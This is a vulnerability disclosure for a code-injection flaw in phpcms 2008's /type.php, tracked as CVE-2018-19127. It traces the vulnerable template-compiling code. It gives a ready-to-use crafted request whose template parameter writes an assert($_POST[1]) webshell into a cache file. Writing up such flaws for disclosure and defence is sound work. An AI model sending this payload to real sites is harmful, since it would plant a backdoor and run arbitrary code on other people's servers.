 # phpcms-2008-CVE-2018-19127

Recently we found a vulnerability in /type.php of phpcms 2008 source code. When attackers send crafted requests like "/type.php?template=tag_(){};@unlink(_FILE_);assert($_POST[1]);{//../rss", evil content (in this case "@unlink(_FILE_);assert($_POST[1]);") will be written into cache file (in this case "/cache_template/rss.tpl.php") on phpcms 2008 website.

There is following code in /type.php:

```
if(empty($template)) $template = 'type';
...
include template('phpcms', $template);
```

And template() is defined in /include/global.func.php with following code:
```
template_compile($module, $template, $istag);
```
Again it calls template_compile(), which is defined in /include/template.func.php as follows:
```
$compiledtplfile = TPL_CACHEPATH.$module.'_'.$template.'.tpl.php';
$content = ($istag || substr($template, 0, 4) == 'tag_') ? '<?php function _tag_'.$module.'_'.$template.'($data, $number, $rows, $count, $page, $pages, $setting){ global $PHPCMS,$MODULE,$M,$CATEGORY,$TYPE,$AREA,$GROUP,$MODEL,$templateid,$_userid,$_username;@extract($setting);?>'.template_parse($content, 1).'<?php } ?>' : template_parse($content);
$strlen = file_put_contents($compiledtplfile, $content);
```
In the attacking payload, $template is set to "tag_(){};@unlink(_FILE_);assert($_POST[1]);{//../rss". 

So the full path passed to file_put_contents() is now "data/cache_template/phpcms_tag_(){};@unlink(_FILE_);assert($_POST[1]);{//../rss.tpl.php", which will be parsed as "data/cache_template/rss.tpl.php" by php. And the content "@unlink(_FILE_);assert($_POST[1]);" will be written into this file, and attacker is then able to use this file as webshell to execute arbitrary code.

The root cause of problem is that the $template variable is not filtered before being used as part of file path and file content. 

We have contacted the vendor of phpcms through method on its official website, but the telephone is not reachable and message with no response. Phpcms 2008 is not the newest version of phpcms, but many users are still using this version. The vulnerability we found has never been found or assigned CVE. Please assign the vulnerability a CVE-id so we can warn users about it.
